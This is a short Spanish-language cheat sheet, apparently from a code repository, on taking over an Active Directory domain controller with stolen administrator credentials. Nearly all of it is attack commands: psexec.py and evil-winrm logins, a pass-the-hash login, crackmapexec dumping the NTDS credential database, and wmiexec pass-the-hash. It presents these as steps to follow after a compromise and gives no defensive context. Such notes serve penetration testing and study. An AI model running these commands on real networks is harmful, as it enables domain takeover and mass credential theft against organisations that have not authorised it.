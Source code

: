 # Requisitos
Para ganar acceso al `Domain Controller` debemos disponer de credenciales válidas de un `Administrador del dominio`.

# Realizar Autenticación
Una forma de hacerlo es mediante psexec
```
psexec.py <dominio>/<usuario>:<contraseña>@<ip_DC> cmd.exe
```
Ejemplo:
```
psexec.py wizzz.local/Administrador:Passw0rd@192.168.45.130 cmd.exe
```
También podemos ganar acceso si hemos conseguido su hash mediante evil-winrm
```
evil-winrm -i <ip-DC> -u '<Administrator>' -H '<hash>'
```

# Recomendaciones
Una vez se compromete el DC es recomendable dumpear el `ntds` de todos los equipos para tener acceso a todos los usuarios del Directorio Activo.
```
crackmapexec smb <ip_DC> -u 'Administrator' -p 'P@$$w0rd!' --ntds vss
```
Una vez hecho eso podrías hacer `Pass The Hash` con herramientas como `wmiexec`
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```

